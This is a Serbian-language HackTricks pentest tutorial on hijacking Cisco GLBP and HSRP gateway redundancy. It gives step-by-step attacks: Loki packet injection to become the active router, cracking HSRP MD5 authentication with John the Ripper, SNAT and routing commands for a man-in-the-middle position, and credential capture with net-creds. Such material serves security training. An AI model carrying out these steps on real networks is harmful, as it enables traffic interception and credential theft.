 # Napadi GLBP & HSRP

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Pregled FHRP Preuzimanja

### Uvidi u FHRP
FHRP je dizajniran da pruži mrežnu otpornost spajanjem više rutera u jedinicu, čime se poboljšava raspodela opterećenja i tolerancija na greške. Cisco Systems je uveo prominentne protokole u ovoj grupi, poput GLBP i HSRP.

### Uvidi u GLBP Protokol
Cisco-ova kreacija, GLBP, funkcioniše na TCP/IP sloju, koristeći UDP na portu 3222 za komunikaciju. Ruteri u GLBP grupi razmenjuju "hello" pakete na intervalima od 3 sekunde. Ako ruter ne pošalje ove pakete tokom 10 sekundi, pretpostavlja se da je offline. Međutim, ovi tajmeri nisu fiksni i mogu se menjati.

### GLBP Operacije i Raspodela Opterećenja
GLBP se ističe omogućavanjem raspodele opterećenja preko rutera korišćenjem jedne virtuelne IP adrese uparene sa više virtuelnih MAC adresa. U GLBP grupi, svaki ruter učestvuje u prosleđivanju paketa. Za razliku od HSRP/VRRP, GLBP nudi pravo balansiranje opterećenja kroz nekoliko mehanizama:

- **Balansiranje Opterećenja Zavisno od Hosta:** Održava konzistentno dodeljivanje AVF MAC adrese hostu, što je bitno za stabilne NAT konfiguracije.
- **Round-Robin Balansiranje Opterećenja:** Podrazumevani pristup, koji menja dodelu AVF MAC adrese među zahtevajućim hostovima.
- **Balansiranje Opterećenja sa Težinama:** Raspodela opterećenja zasnovana na unapred definisanim "Težinama".

### Ključni Komponenti i Terminologije u GLBP
- **AVG (Aktivni Virtuelni Gateway):** Glavni ruter, odgovoran za dodelu MAC adresa ruterima u mreži.
- **AVF (Aktivni Virtuelni Prosleđivač):** Ruter određen za upravljanje mrežnim saobraćajem.
- **GLBP Prioritet:** Metrika koja određuje AVG, počevši od podrazumevane vrednosti od 100 i krećući se između 1 i 255.
- **GLBP Težina:** Odražava trenutno opterećenje na ruteru, koje se može ručno podešavati ili putem Praćenja Objekata.
- **GLBP Virtuelna IP Adresa:** Služi kao podrazumevani gateway mreže za sve povezane uređaje.

Za interakcije, GLBP koristi rezervisanu multicast adresu 224.0.0.102 i UDP port 3222. Ruteri šalju "hello" pakete na intervalima od 3 sekunde i smatraju se neoperativnim ako paket nedostaje tokom 10 sekundi.

### Mekanizam Napada GLBP
Napadač može postati primarni ruter slanjem GLBP paketa sa najvišom vrednošću prioriteta (255). Ovo može dovesti do DoS ili MITM napada, omogućavajući presretanje ili preusmeravanje saobraćaja.

### Izvođenje Napada GLBP sa Loki
[Loki](https://github.com/raizo62/loki_on_kali) može izvesti GLBP napad ubacivanjem paketa sa postavljenim prioritetom i težinom na 255. Pred-napad koraci uključuju prikupljanje informacija poput virtuelne IP adrese, prisustva autentifikacije i vrednosti prioriteta rutera korišćenjem alata poput Wireshark.

Koraci Napada:
1. Prebacite se u promiskuitetni režim i omogućite IP prosleđivanje.
2. Identifikujte ciljni ruter i dobijte njegovu IP adresu.
3. Generišite Gratuitous ARP.
4. Ubacite zlonamerni GLBP paket, predstavljajući se kao AVG.
5. Dodelite sekundarnu IP adresu mrežnom interfejsu napadača, oponašajući GLBP virtuelnu IP.
6. Implementirajte SNAT za potpunu vidljivost saobraćaja.
7. Podesite rutiranje kako biste obezbedili nastavak pristupa internetu preko originalnog AVG rutera.

Prateći ove korake, napadač se pozicionira kao "čovek u sredini", sposoban za presretanje i analizu mrežnog saobraćaja, uključujući nešifrovane ili osetljive podatke.

Za demonstraciju, evo potrebnih komandi:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Pasivno objašnjenje HSRP preuzimanja sa detaljima komandi

#### Pregled HSRP (Hot Standby Router/Redundancy Protocol)
HSRP je Cisco vlasnički protokol dizajniran za redundanciju mrežnih gateway-a. Omogućava konfiguraciju više fizičkih rutera u jedinicu sa zajedničkom IP adresom. Ova logička jedinica je upravljana primarnim routerom odgovornim za usmeravanje saobraćaja. Za razliku od GLBP-a, koji koristi metrike poput prioriteta i težine za balansiranje opterećenja, HSRP se oslanja na jedan aktivni router za upravljanje saobraćajem.

#### Uloge i terminologija u HSRP-u
- **HSRP Aktivni Router**: Uređaj koji deluje kao gateway, upravljajući protokom saobraćaja.
- **HSRP Standby Router**: Rezervni router, spreman da preuzme ulogu ako aktivni router zakaže.
- **HSRP Grupa**: Skup rutera koji sarađuju kako bi formirali jedan otporan virtuelni router.
- **HSRP MAC Adresa**: Virtuelna MAC adresa dodeljena logičkom routeru u HSRP postavci.
- **HSRP Virtuelna IP Adresa**: Virtuelna IP adresa grupe HSRP, deluje kao podrazumevani gateway za povezane uređaje.

#### Verzije HSRP-a
HSRP dolazi u dve verzije, HSRPv1 i HSRPv2, koje se razlikuju uglavnom po kapacitetu grupe, korišćenju multicast IP adresa i strukturi virtuelne MAC adrese. Protokol koristi specifične multicast IP adrese za razmenu informacija o uslugama, sa Hello paketima koji se šalju svakih 3 sekunde. Router se smatra neaktivnim ako ne primi paket u intervalu od 10 sekundi.

#### Mehanizam napada HSRP-a
Napadi HSRP-a uključuju prisilno preuzimanje uloge Aktivnog Routera ubacivanjem maksimalne vrednosti prioriteta. Ovo može dovesti do napada čovek-u-sredini (MITM). Bitni koraci pre napada uključuju prikupljanje podataka o HSRP postavci, što se može uraditi korišćenjem Wireshark-a za analizu saobraćaja.

#### Koraci za zaobilaženje HSRP autentikacije
1. Sačuvajte mrežni saobraćaj koji sadrži HSRP podatke kao .pcap fajl.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Izdvojite MD5 heševe iz .pcap fajla koristeći hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Provalite MD5 heševe koristeći John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Izvršavanje HSRP ubacivanja pomoću Lokija**

1. Pokrenite Lokija da identifikujete HSRP oglase.
2. Postavite mrežni interfejs u promiskuitetni režim i omogućite prosleđivanje IP adresa.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Koristite Lokija da ciljate određeni router, unesite provaljenu HSRP šifru i izvršite neophodne konfiguracije za predstavljanje Aktivnog Routera.
4. Nakon što preuzmete ulogu Aktivnog Routera, konfigurišite svoj mrežni interfejs i IP tabele da presretnu legitimni saobraćaj.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifikujte rutiranje tabele da rutira saobraćaj preko prethodnog Aktivnog Routera.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Koristite net-creds.py ili sličan alat da uhvatite akreditive iz presretnutog saobraćaja.
```shell
sudo python2 net-creds.py -i eth0
```

Izvršavanje ovih koraka stavlja napadača u poziciju da presretne i manipuliše saobraćajem, slično postupku za GLBP preuzimanje. Ovo ističe ranjivost u protokolima redundancije poput HSRP-a i potrebu za snažnim sigurnosnim merama.
